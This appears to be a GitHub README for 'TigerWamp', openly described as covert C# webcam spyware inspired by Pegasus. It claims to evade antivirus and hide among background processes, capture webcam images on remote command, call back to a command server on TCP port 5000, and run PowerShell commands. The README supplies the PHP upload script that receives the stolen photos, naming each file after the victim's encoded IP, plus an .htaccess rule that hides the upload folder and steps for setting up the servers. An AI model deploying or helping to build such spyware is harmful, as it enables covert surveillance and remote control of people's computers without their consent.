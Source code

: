 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of the background processes list.

To use it you need your own webserver with directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). The camera photos can be trigger remotely with the 'cam' command. It will try to connect to a remote server on tcp/5000 (Change as needed). It also supports powershell command execution (if your good). More features coming soon.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.

#Required for operation
1. Make sure you have your own http server (with php) that will accept files. Change this I don't want your data!!!
2. Make sure that you have your own server that can accept connections. Currently it uses my linode server IP!
